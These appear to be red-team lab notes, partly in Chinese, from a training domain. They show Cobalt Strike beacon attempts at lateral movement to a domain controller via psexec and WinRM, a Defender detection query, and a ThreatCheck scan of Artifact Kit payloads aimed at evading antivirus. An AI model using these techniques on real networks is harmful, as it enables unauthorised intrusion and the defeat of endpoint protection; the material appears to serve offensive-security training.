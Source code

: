 ```
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 1kb      fil     03/01/2022 10:55:07   dc-2.dev.cyberbotic.io_ca-2.req
 704mb    fil     08/27/2022 00:24:00   pagefile.sys

beacon> jump psexec64 dc-2 smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\msagent_dc) on dc-2 via Service Control Manager (\\dc-2\ADMIN$\f9a9ab8.exe)
[+] host called home, sent: 315465 bytes
[-] Could not start service f9a9ab8 on dc-2: 225
[-] Could not connect to pipe: 2
beacon> jump winrm64 dc-2 smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\msagent_dc) on dc-2 via WinRM
[+] host called home, sent: 219584 bytes
[-] Could not connect to pipe: 2
[+] received output:
#< CLIXML

```

```Get-MpThreatDetection```是一个 Windows Defender cmdlet，也可以显示检测到的威胁

```
beacon> remote-exec winrm dc-2 Get-MpThreatDetection | select ActionSuccess, DomainUser, ProcessName, Resources
[*] Tasked beacon to run 'Get-MpThreatDetection | select ActionSuccess, DomainUser, ProcessName, Resources' on dc-2 via WinRM
[+] host called home, sent: 415 bytes
[+] received output:


ActionSuccess  : True
DomainUser     : 
ProcessName    : Unknown
Resources      : {file:_C:\Windows\bed299a.exe, file:_\\dc-2\ADMIN$\bed299a.exe}
PSComputerName : dc-2
RunspaceId     : 0a002783-760f-4f71-9114-729966d125de

ActionSuccess  : True
DomainUser     : DEV\nlamb
ProcessName    : C:\Windows\System32\wsmprovhost.exe
Resources      : {amsi:_\Device\HarddiskVolume1\Windows\System32\wsmprovhost.exe}
PSComputerName : dc-2
RunspaceId     : 0a002783-760f-4f71-9114-729966d125de

....

.....
```



wsmprovhost.exe是winrm64 尝试拿beacon

bed299a.exe是psexec64 的尝试

# Artifact Kit

用smb的listener生成一个exe的beacon：```C:\Payloads\beacon-smb-svc.exe```


使用ThreatCheck.exe对其进行检查

```
C:\Tools\ThreatCheck\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Tools\cobaltstrike\ArtifactKit\dist-pipe\artifact64svcbig.exe
```

```